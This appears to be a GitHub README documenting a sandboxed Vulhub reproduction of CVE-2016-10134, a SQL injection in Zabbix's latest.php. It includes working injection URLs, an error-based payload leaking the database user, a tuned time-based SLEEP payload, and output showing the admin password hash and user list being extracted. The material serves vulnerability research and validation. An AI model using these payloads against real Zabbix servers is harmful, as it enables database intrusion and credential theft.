





# Vuln2Action-Demo
This repository contains the demo video for the exploit code to be tested in sandboxed environment.
The testing has been done using the vulhub platform .
# CVE-2016-10134 Validation using Vulhub

## Overview

This repository demonstrates the validation of **CVE-2016-10134**, a SQL Injection vulnerability affecting Zabbix.

**Vulnerability Reference**

* CVE: CVE-2016-10134
* Affected Versions:

  * Zabbix before 2.2.14
  * Zabbix 3.0 before 3.0.4

### Description

The vulnerability exists in the `toggle_ids[]` parameter of `latest.php`, allowing authenticated users to execute arbitrary SQL commands.

Official Vulhub Environment:

https://github.com/vulhub/vulhub/tree/master/zabbix/CVE-2016-10134

---

# Environment Setup

## 1. Clone Vulhub

```bash
git clone --depth 1 https://github.com/vulhub/vulhub.git
cd vulhub/zabbix/CVE-2016-10134
```

## 2. Update Docker Configuration

The original Docker configuration may require updates on newer systems.

Add the following line to both the Zabbix Server and Zabbix Agent services in `docker-compose.yml`:

```yaml
platform: linux/amd64
```

## 3. Start Containers

```bash
docker compose up -d
```

This pulls and launches:

* MySQL database
* Zabbix Server
* Zabbix Agent
* Web frontend

Verify that the application is accessible at:

```text
http://localhost:8080
```

---

# Manual Exploit Validation

## 1. Login

Open:

```text
http://localhost:8080
```

Use the default guest account:

```text
Username: guest
Password: <blank>
```

## 2. Obtain Session ID

After login, obtain the session identifier from browser cookies.

Example:

```text
fb41007b792256f5381a37a9883c2b5c
```

The vulnerable endpoint expects the last 16 characters:

```text
5381a37a9883c2b5c
```

## 3. Trigger SQL Injection

Send the following request:

```text
http://localhost:8080/latest.php?output=ajax&sid=<SID>&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

Example:

```text
http://localhost:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

### Expected Result

The response returns a database error containing the current database user, confirming successful SQL injection.



---

# Automated Exploit Validation

## 1. Start Environment

```bash
docker compose up -d
```

## 2. Execute Exploit Script

Store the exploit script as:

```text
exploits/CVE-2016-10134_modified.py
```

Run:

```bash
python3 exploits/CVE-2016-10134_modified.py --url http://localhost:8080 --all
```

---

# Validation Results

## Initial Attempt

Output:

```text
SUMMARY

Zabbix Version: 3.0.3
Version Vulnerable: True
Sqli Confirmed: False
```

### Root Cause

Although the script identified a vulnerable version, the vulnerable code path was not reached because:

* `toggle_open_state=1` was missing.
* A valid `sid` parameter was not included.
* The request never executed the vulnerable SQL query.

The official exploit requires:

```text
latest.php?output=ajax
&sid=<valid_sid>
&favobj=toggle
&toggle_open_state=1
&toggle_ids[]=<payload>
```

---

## Updated Payload Attempt

Output:

```text
DETECTION PHASE

Sending time-based payload:
1 AND SLEEP(3)-- -

Response time: 0.03s

No delay detected

Boolean payloads:
TRUE length: 7285
FALSE length: 7285

Responses identical- Boolean detection inconclusive

Vulnerability NOT confirmed by any method
```


### Analysis

The issue was not caused by the detection logic itself.

The injected SQL payload was incompatible with the underlying query structure, preventing execution of the intended delay.

---

## Final Fix

The payload was modified to match the SQL context more accurately:

### Original

```sql
1 AND SLEEP(3)-- -
```

### Updated

```sql
IF(1=1,SLEEP(3),0)
```

---

# Successful Validation

Output:

```text
DETECTION PHASE

jsrpc.php time-based payload:
1 AND SLEEP(3)-- -

Response time: 0.04s

No delay via jsrpc.php

latest.php time-based payload:
IF(1=1,SLEEP(3),0)

Response time: 3.04s

TIME-BASED SQLi CONFIRMED
```

Final Summary:

```text
SUMMARY

Zabbix Version: 3.0.3
Version Vulnerable: True
Sqli Confirmed: True

Db Version: 5.7.44
Db User: root@172.18.0.5
Db Name: zabbix

Admin Hash:
5fce1b3e34b520afeffb37ce08c7cd66 (MD5)

Users:
- admin
- guest
```

---




# Cleanup

Stop and remove the environment:

```bash
docker compose down
```

---

# Key Findings

* Vulnerability successfully reproduced in Vulhub.
* Authentication via a valid session identifier is required.
* `toggle_open_state=1` is mandatory to reach the vulnerable code path.
* Generic SQLi payloads may fail due to query structure constraints.
* A context-aware payload (`IF(1=1,SLEEP(3),0)`) successfully confirmed blind time-based SQL injection.
* Database information and user data were successfully extracted after confirmation.
